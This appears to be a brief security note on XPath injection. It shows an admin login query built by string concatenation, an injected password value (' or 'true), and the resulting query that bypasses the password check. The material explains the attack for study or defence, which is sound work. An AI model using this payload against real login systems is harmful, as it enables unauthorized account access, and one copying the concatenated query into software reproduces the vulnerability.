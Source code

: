#xpathi

### Code
```
/db/users/user[username='admin' and password='$pass']
```

### Injection
```
$password = ' or 'true
```

### Result
```
/db/users/user[username='admin' and password='' or 'true']
```
